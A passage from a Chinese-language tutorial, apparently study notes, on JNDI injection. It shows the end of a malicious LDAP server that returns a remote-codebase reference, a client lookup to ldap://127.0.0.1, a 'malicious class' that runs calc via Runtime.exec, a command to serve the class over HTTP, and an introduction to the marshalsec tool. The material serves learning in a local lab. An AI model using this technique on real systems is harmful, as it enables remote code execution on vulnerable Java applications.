 ```
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

接下来再用客户端使用LDAP进行通信

```
package JNDI.ldap;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class client {
    public static void main(String[] args) throws NamingException {
        Object object=new InitialContext().lookup("ldap://127.0.0.1:7777/calc");
    }
}
```

恶意类

```
public class test {
    public test() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

起web服务,编译恶意的class文件

```
py -3 -m http.server 8081
```

![image-20220213232323685](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220213232323685.png)

# 利用marshalsec起RMI和LDAP服务

因为自己起RMI服务确实麻烦,在实际中肯定多是用工具去起RMI和LDAP服务,所以用到了marshalsec这个反序列化工具去起服务

下载地址: https://github.com/mbechler/marshalsec

自述文档中给了编译方法：装有java8，使用`mvn clean package -DskipTests`编译

解决mvn命令的问题:https://blog.csdn.net/will__be/article/details/117412180

编译后会多一个target文件夹,里面有两个jar包

**使用方法**
